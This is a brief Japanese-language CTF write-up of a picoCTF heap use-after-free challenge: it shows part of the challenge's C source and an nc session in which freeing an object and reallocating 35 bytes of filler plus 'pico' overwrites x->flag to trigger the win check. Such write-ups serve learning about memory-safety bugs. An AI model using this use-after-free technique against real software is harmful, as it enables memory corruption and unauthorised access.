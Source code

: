 ```c
        case 3:
            // print x
            printf("\n\nx = %s\n\n", x->flag);
            fflush(stdout);
            break;
        case 4:
            // Check for win condition
            check_win();
            break;
        case 5:
            free_memory();
            break;
        case 6:
            // exit
            return 0;
        default:
            printf("Invalid choice\n");
            fflush(stdout);
        }
    }
}
```
メモリをfree()したあと、mallocして`x->flag`を"bico"から"pico"に書き換えれば、win関数によってフラグが得られる。  
flagはstructより31～35文字目("pico\n")に入る。よって、malloc sizeを35確保し、`30文字分の何か + pico`を入力する。
```
$ nc tethys.picoctf.net 61107

freed but still in use
now memory untracked
do you smell the bug?

1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice: 5

1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice: 2
Size of object allocation: 35
Data for flag: aaaaaaaaaabbbbbbbbbbccccccccccpico

1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice: 3


x = pico

```